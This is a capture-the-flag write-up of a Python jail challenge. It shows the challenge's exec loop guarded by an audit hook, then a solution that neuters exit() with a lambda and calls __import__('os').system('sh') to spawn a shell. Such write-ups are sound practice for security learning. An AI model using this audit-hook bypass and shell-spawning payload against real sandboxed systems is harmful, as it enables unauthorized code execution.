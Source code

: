 # tax evasion

made by puzzler7

source is [here](https://imaginaryctf.org/ArchivedChallenges/18)

## challenge

```py
import sys

def audit(name, args):
    if name not in ["exec", "compile", "builtins.input", "builtins.input/result"]:
        print("you did a bad thing")
        print(name, args)
        print("stay in jail forever")
        exit(0)

sys.addaudithook(audit)

while True:
    try:
        code = input(">>> ")
        exec(code)
    except Exception as e:
        print("Error occurred")
        exit(0)
```

## solution

overwrite `exit` with `lambda a: None` by doing `exit = lambda a: None`

then just use `__import__('os').system('sh')` to get a shell
